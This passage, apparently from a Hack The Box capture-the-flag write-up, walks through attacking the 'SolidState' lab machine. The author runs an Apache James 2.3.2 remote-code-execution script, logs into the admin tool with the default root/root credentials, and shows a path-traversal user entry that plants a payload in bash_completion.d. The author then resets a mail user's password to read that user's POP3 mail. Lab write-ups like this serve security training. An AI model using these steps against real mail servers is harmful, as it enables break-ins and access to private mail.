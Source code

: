 As the final step we deliver our payload to the target with:

```{r, engine='bash', sh}
root@kali:/media/sf_CTF/hackthebox.eu/Machines/SolidState# python james_2.3.2_rce.py 10.10.10.51
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in.
```

As the exploit says, the payload itself will only fire if someone logs in on the box.
So either we wait for someone logging in or we get ourself some credentials.

So let´s reevaluate what power we have with the James Remote Administration Tool.

```{r, engine='bash', sh}
root@kali:/media/sf_CTF/hackthebox.eu/Machines/SolidState# nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
HELP
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

Note that we have the ability to reset passwords for users.
So first we list the users, change the password and login via the opened POP3.

```{r, engine='bash', sh}
listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d
user: thomas
user: john
user: mindy
user: mailadmin
setpassword mindy mindylol
Password for mindy reset
```
